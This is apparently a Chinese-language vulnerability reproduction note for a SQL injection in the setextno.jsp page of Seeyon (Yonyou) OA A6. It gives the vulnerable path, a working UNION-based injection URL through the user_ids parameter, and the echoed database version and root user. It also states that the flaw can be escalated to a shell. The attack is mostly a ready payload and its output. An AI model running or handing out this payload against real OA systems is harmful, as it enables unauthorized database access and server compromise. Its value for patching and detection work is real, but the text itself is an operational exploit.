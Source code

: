 ```yaml
---
title: 致远OA A6 setextno.jsp sql注入漏洞
id: zhfly3348
---
```


# 致远OA A6 setextno.jsp sql注入漏洞

## 一、漏洞简介

用友致远A6协同系统SQL注入，union可shell

## 二、漏洞影响

致远OA A6

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp 
```

##### 漏洞详情:

```
版本：A6用友致远A6协同系统SQL注入，union可shell 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(17) union all select 1,2,@@version,user()%23 
```

##### 回显内容

```
5.0.41-community-nt 
分机号root@localhost 
```